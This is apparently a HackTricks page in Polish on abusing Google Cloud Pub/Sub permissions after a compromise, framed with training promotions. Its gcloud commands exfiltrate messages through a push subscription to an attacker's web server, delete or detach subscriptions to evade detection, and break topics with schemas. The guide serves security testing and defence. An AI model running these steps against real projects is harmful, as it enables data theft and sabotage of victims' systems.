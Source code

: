 # GCP - Wykorzystanie Pub/Sub po eksploatacji

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCYJNY**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Pub/Sub

Aby uzyskać więcej informacji na temat Pub/Sub, sprawdź następującą stronę:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Opublikuj wiadomość w temacie, przydatne do **wysyłania nieoczekiwanych danych** i wywoływania nieoczekiwanych funkcjonalności lub wykorzystywania podatności:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Przydatne do zapobiegania otrzymywaniu wiadomości przez subskrypcję, być może w celu uniknięcia wykrycia.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Przydatne do zapobiegania otrzymywaniu wiadomości przez subskrypcję, być może w celu uniknięcia wykrycia.\
Możliwe jest usunięcie tematu nawet wtedy, gdy do niego są dołączone subskrypcje.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Użyj tej uprawnienia do aktualizacji ustawień tematu w celu zakłócenia go, takich jak `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Nadaj sobie uprawnienie do wykonania dowolnego z poprzednich ataków.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Pobierz wszystkie wiadomości na serwerze sieciowym:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Utwórz subskrypcję i użyj jej do **pobierania wiadomości**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Usuń subskrypcję** może być przydatne do zakłócenia systemu przetwarzania logów lub czegoś podobnego:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Użyj tej uprawnienia do aktualizacji ustawień, aby wiadomości były przechowywane w miejscu, do którego masz dostęp (URL, tabela Big Query, kubełek) lub po prostu, aby je zakłócić.

### `pubsub.subscriptions.setIamPolicy`

Przyznaj sobie uprawnienia potrzebne do wykonania dowolnego z wcześniej skomentowanych ataków.

### `pubsub.schemas.delete`

Usuń schemat, aby móc wysyłać wiadomości, które nie spełniają wymagań schematu:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Zaatakuj schemat do tematu, aby wiadomości go nie spełniały i tym samym zakłócić temat.\
Jeśli nie ma żadnych schematów, możesz musieć utworzyć jeden.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Przyznaj sobie uprawnienia potrzebne do wykonania dowolnych wcześniej skomentowanych ataków.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

To spowoduje utworzenie migawki wszystkich niepotwierdzonych wiadomości i ich ponowne umieszczenie w subskrypcji. Niezbyt przydatne dla atakującego, ale tutaj jest:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
